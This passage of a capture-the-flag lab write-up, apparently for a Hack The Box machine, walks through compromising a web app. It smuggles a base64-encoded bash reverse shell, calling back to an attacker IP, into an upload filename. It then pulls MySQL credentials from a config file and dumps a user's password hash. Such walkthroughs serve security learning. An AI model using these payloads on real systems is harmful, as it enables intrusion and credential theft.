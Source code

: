 The request to the image upload should be intercepted with a proxy like **Burpsuite** to modify it.

Creating filename with reverse shell command:
```
POST /dashboard/stories/add HTTP/1.1
(...)

Content-Disposition: form-data; name="image"; filename="DoesNotMatter.jpg;echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNS85MDAxICAwPiYxICAK | base64 -d | bash;"
Content-Type: image/jpeg
(...)
```

Calling the file:
```
POST /dashboard/stories/add HTTP/1.1
(...)

Content-Disposition: form-data; name="image_url"

file:///var/www/writer.htb/writer/static/img/DoesNotMatter.jpg;echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNS85MDAxICAwPiYxICAK | base64 -d | bash;
```

After the request, the filename will be injected as a command and the listener on my IP and port 9001 starts a shell as _www-data_.

## Privilege Escalation

In the web directory is another directory _/var/www/writer2_project_ with source code files.
The file _writerv2/settings.py_ has more information about this web application:
```
ALLOWED_HOSTS = ['127.0.0.1']
(...)
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'OPTIONS': {
            'read_default_file': '/etc/mysql/my.cnf',
```

It only allows localhost to access it and the database can be found in _/etc/mysql/my.cnf_.
This file contains credentials for a different database:
```
database = dev
user = djangouser
password = DjangoSuperPassword
```

Enumerating the **MySQL database**:
```
mysql -u djangouser -p dev
```
```
MariaDB [dev]> show tables;
MariaDB [dev]> select * from auth_user;

+----------+------------------------------------------------------------------------------------------+
| username | password                                                                                 |
+----------+------------------------------------------------------------------------------------------+
| kyle     | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= |
+----------+------------------------------------------------------------------------------------------+
```
